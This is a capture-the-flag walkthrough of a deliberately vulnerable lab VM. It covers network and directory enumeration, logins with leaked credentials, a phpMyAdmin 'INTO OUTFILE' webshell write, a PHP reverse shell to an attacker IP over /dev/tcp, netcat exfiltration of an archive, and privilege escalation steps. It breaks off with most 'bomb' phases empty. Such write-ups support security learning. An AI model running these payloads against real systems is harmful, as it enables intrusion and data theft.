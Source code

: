 ## Enumeration

### ping sweep

```
$ nmap -sn -o nmap/ping-sweep.txt 192.168.0.0/24
...
Nmap scan report for 192.168.0.6
Host is up (0.00068s latency).
...
```

### nmap scan


```
$ nmap -sV -oN nmap/sv.txt 10.0.0.5
...
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
993/tcp open  ssl/imap Dovecot imapd
...
```

### port 80

http://192.168.0.6/

![](assets/00.png)

### port 443

https://192.168.0.6/

![](assets/01.png)

Directory fuzzing

```
$ ffuf -u https://192.168.0.6/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
...
cgi-bin/                [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 6ms]
forum                   [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 1ms]
phpmyadmin              [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 2ms]
server-status           [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 0ms]
webmail                 [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 1ms]
...
```

**https://192.168.0.6/forum/**

```
$ ffuf -u https://192.168.0.6/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
...
modules                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 5ms]
templates_c             [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 0ms]
themes                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 1ms]
update                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 0ms]
...
```

Users at https://192.168.0.6/forum/index.php?mode=user

![](assets/02.png)

Password at https://192.168.0.6/forum/index.php?id=6

![](assets/03.png)

Logged in using `lmezard:!q\]Ej?*5K5cy*AJ`

Email address at https://192.168.0.6/forum/index.php?mode=user&action=edit_profile

![](assets/04.png)

**https://192.168.0.6/webmail/**

Logged in using `laurie@borntosec.net:!q\]Ej?*5K5cy*AJ`

Database credentials at an email

![](assets/05.png)

**https://192.168.0.6/phpmyadmin/**

Logged in using `root:Fg-'kKXBj87E:aJ$`

![](assets/06.png)

Write php file on `/var/www/forum/templates_c/` using this sql query

```
SELECT '<?php phpinfo();?>' INTO OUTFILE '/var/www/forum/templates_c/info.php'
```

![](assets/07.png)

Browsed to https://192.168.0.6/forum/templates_c/info.php

![](assets/08.png)

## Initial access

Create a php script to get a reverse shell

```
SELECT '<?php system("bash -c \'bash -i >& /dev/tcp/192.168.0.5/9000 0>&1\'");?>' INTO OUTFILE '/var/www/forum/templates_c/shell.php'
```

Started a listener

```
$ nc -lnp 9000
```

Browsed to https://192.168.0.6/forum/templates_c/shell.php and got a shell

![](assets/09.png)

Logged in as `www-data`

Stabilize our shell

```
target$ python -c 'import pty; pty.spawn("/bin/bash")'
target$ Ctrl+Z
attack$ stty -a
speed 38400 baud; rows 53; columns 237; line = 0;
...
attack$ stty raw -echo; fg
target$ export TERM=xterm
target$ stty rows 53 columns 237
```

## Privilege escalation

**www-data -> lmezard**

credentials were found at `/home/LOOKATME/password`: `lmezard:G!@M6f4Eatau{sF"`

![](assets/10.png)

```
$ su lmezard
Password: G!@M6f4Eatau{sF"
```

![](assets/11.png)

**lmezard -> laurie**

Exfiltrated tar archive `fun` to our machine and extracted it

```
attack$ nc -lnp 9000 > loot/fun
target$ cat fun | nc 192.168.0.5 9000
attack$ tar xf fun
```
The extracted folder `ft_fun` contained a lot of files with the extension `pcap`, one of these files contained the following `main()`

```c
int main() {
        printf("M");
        printf("Y");
        printf(" ");
        printf("P");
        printf("A");
        printf("S");
        printf("S");
        printf("W");
        printf("O");
        printf("R");
        printf("D");
        printf(" ");
        printf("I");
        printf("S");
        printf(":");
        printf(" ");
        printf("%c",getme1());
        printf("%c",getme2());
        printf("%c",getme3());
        printf("%c",getme4());
        printf("%c",getme5());
        printf("%c",getme6());
        printf("%c",getme7());
        printf("%c",getme8());
        printf("%c",getme9());
        printf("%c",getme10());
        printf("%c",getme11());
        printf("%c",getme12());
        printf("\n");
        printf("Now SHA-256 it and submit");
}
```

Extracted the password for `laurie` using this script

```bash
#!/bin/bash

for i in `seq 1 3`
do
        for f in `ls loot/ft_fun/*.pcap`
        do
                cat $f
                echo " $f"
        done | egrep "file[0-9]{$i}\s" | sort | cut -d ' ' -f2 | xargs cat | egrep -o 'return.*'
done | cut -d "'" -f 2 | tr -d '\n' | sha256sum
```

Logged in as `laurie` using SSH with the password: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

**laurie -> thor**

reversing `bomb`

phase_1: 'Public speaking is very easy.'
phase_2: 1 2 6 24 120 720
phase_3: 
phase_4: 
phase_5: 
phase_6: 
